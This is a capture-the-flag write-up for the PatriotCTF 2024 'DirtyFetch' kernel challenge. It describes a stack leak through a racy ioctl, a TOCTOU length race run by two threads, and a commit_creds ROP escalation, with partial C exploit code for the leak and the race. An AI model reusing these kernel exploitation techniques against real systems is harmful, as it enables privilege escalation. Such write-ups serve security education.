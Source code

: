 # 🏴‍☠️ PatriotCTF 2024 - DirtyFetch: A Kernel Exploitation Challenge

## 🔍 Step-by-Step Walkthrough

The DirtyFetch challenge was a kernel exploitation problem where we leveraged a race condition in a kernel module to leak sensitive information and escalate privileges. Here's a breakdown of the steps involved:

1. **Identify the Vulnerability**: The module had a race condition in the ioctl handling, allowing access to uninitialized stack memory. This let us leak the kernel base and stack canary values.

2. **Leaking Kernel and Canary Information**: By exploiting the race condition, we were able to leak key information from the stack, which we needed for further exploitation.

3. **Exploit TOCTOU**: The `validate_buf` function checked the buffer size twice (once for validation and once for allocation), which created a Time of Check to Time of Use (TOCTOU) vulnerability. We switched buffer lengths between these checks to bypass validation and exploit the overflow.

4. **Setting Up Threads**: Two threads were used to alternate between valid and invalid buffer sizes to win the race condition. One thread continuously switched buffer sizes, while the other tried to allocate the buffer.

5. **ROP Chain Setup**: Once the race condition was won, a ROP (Return-Oriented Programming) chain was set up to elevate privileges using `commit_creds(prepare_kernel_cred(0))`.

6. **Privilege Escalation and Flag Retrieval**: After executing the ROP chain, we gained root access, allowing us to read the flag and complete the challenge.

## 💻 Code with Comments

```c
// Setup the main buffer and leak values
unsigned long get_value(char *buffer, unsigned long offset) {
    return *((uint64_t *)(buffer + offset));
}

// Load buffer data
int load(int fd, char *buffer, size_t length) {
    set_value(buffer, 0, length);
    return ioctl(fd, 0x40, buffer);
}

// Set the value in the buffer
void set_value(char *buffer, unsigned long offset, unsigned long value) {
    *((uint64_t *)(buffer + offset)) = value;
}

int main() {
    char buffer[0x1000];
    fd = open("/proc/vuln", O_RDWR);

    // Leak kernel and canary from uninitialized stack content
    load(fd, buffer, 239);

    // Calculating kernel base and canary from leaked values
    unsigned long kernel_leak = get_value(buffer, 0xe8) + 0xff00000000000000;
    unsigned long kernel_base = kernel_leak - 0x35691f;
    unsigned long canary = get_value(buffer, 0xb0);

    printf("kernel leak      : %p\n", kernel_leak);
    printf("kernel base      : %p\n", kernel_base);
    printf("canary           : %p\n", canary);
}

// Race condition threads to win the TOCTOU vulnerability
void *threadSwitchLength(void *arg) {
    while (init_request_running) {
        maindata.length = 100;
        usleep(100); // Switching lengths between valid and oversized
        maindata.length = 0x200;
        usleep(100);
    }
}

void *threadWriteBuffer(void *arg) {
    while (init_request_running) {
        unsigned long result = ioctl(fd, 0x20, &maindata);
        if (result == 0x200) init_request_running = 0;
    }
}

// Final buffer overwrite for ROP chain
int save(int fd) {
    return ioctl(fd, 0x30, 0);
}

void safe_exit(void) {
    char buffer[100];
    int fd = open("/flag.txt", O_RDONLY);
    read(fd, buffer, 100);
    puts(buffer);
}
